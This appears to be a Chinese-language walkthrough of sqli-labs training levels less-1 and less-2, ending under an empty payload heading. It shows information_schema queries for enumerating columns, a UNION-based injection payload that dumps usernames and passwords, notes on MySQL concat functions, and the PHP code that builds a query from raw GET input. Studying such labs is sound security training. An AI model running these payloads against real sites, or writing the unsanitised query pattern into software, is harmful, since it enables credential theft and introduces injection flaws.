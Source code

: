 获取所有列名：(这里使用user表)

```
select group_concat(COLUMN_NAME)from information_schema.columns where table_schema=database()and table_name='users'
```
获取users表中的字段名
![image](https://note.youdao.com/yws/res/10884/5AB43248E8FF43CB932B3AA03A31306D)

获取数据:

```
select concat_ws(id,username,password) from users limit 1,1
```
==Mysql 的concat、concat_ws()以及group_concat()的用法与区别==

```
concat（）函数  
1、mysql的Concat函数可以连接一个或多个字符串
select concat('11','22','33');//112233
2.mysql的Concat函数再连接字符串的时候，只要其中一个是null，返回就是null
select concat('11','22',null);//null
```
> Oracle的concat函数只能连接两个字符串，不能多也不能少;  
> select concat('11','22') from dual;  
> Oracle的concat函数连接的时候，只要有一个字符串不是NULL,就不会返回NULL
> select concat('11',NULL) from dual;//11


```
concat.ws()函数
表示concat with separator,即有分隔符的字符串连接;
select concat_ws(',','11','22','33');//11,22,33
和concat不同的是, concat_ws函数在执行的时候,不会因为NULL值而返回NULL
```
```
group_concat()
参数是可以直接使用order by排序的,适合多表查询，把对应表和这个表相关的组成一个组一条记录。
```

#### payload:
```
?id=-1'+UNION+SELECT+1,2,(SELECT+GROUP_CONCAT(username,password+SEPARATOR+0x3c62723e)+FROM+users)--+
```

## less-2
##### index.php
与 less-1 相比闭合方式不同
```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```
使用`'`提示报错
使用`' and 1=1`和`' and 1=2` 判断出存在注入  
注入方式与less-1 一样
#### payload
